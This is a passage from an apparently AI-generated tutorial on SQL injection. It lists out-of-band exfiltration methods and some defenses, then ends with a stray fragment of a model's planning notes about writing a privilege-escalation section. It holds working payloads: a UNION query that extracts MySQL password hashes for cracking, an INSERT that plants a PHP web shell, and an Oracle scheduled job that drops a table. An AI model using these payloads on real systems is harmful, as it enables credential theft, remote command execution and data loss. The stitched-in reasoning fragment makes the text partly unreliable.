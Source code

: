 - **Extract and Crack Hashes (MySQL)**:  
  ```sql  
  UNION SELECT user, authentication_string FROM mysql.user;  
  ```  
  Hashes like `*5F4DCC3B5AA765D61D8327DEB882CF990378D7F2` (SHA1) can be cracked using `hashcat`.  

- **Deploy Web Shells**:  
  Inject malicious code into writable database fields:  
  ```sql  
  INSERT INTO config (value) VALUES ('<?php system($_GET["cmd"]); ?>');  
  ```  

- **Scheduled Tasks (Oracle)**:  
  ```sql  
  BEGIN  
    DBMS_SCHEDULER.create_job(  
      job_name => 'malicious_job',  
      job_type => 'PLSQL_BLOCK',  
      job_action => 'EXECUTE IMMEDIATE ''DROP TABLE secrets'';',  
      repeat_interval => 'FREQ=DAILY'  
    );  
  END;  
  ```  

---

#### **5. Challenges and Mitigation**  
- **Dependencies**:  
  - Requires outbound network connectivity from the database server.  
  - Relies on specific database permissions (e.g., Oracle’s `UTL_INADDR`).  

- **Defenses**:  
  - Disable unnecessary network functions (e.g., `xp_dirtree`, `UTL_INADDR`).  
  - Block outbound connections from database servers using firewalls.  
  - Use parameterized queries and input sanitization to prevent SQLi.  

---

#### **Summary Table: OOB SQLi Techniques**  
| **Method**       | **Mechanism**                          | **Database Example**                          | **Prerequisites**                          |  
|-------------------|----------------------------------------|-----------------------------------------------|--------------------------------------------|  
| **DNS-Based**     | DNS lookup with embedded data          | Oracle `UTL_INADDR`                           | Network function access, DNS monitoring    |  
| **HTTP-Based**    | HTTP request with data in URL          | MySQL `LOAD DATA INFILE`                      | URL-enabled functions, HTTP listener       |  

---

By leveraging OOB SQLi, attackers bypass traditional detection mechanisms, making it a sophisticated tool for data exfiltration and system compromise. Organizations must enforce strict network segmentation and database hardening to mitigate these risks.


Okay, I need to write Section 7 on Privilege Escalation via SQL Injection. Let me start by recalling the key points from the user's provided information. The section should cover how attackers escalate privileges using SQLi to gain administrative control over the database or the underlying system. 
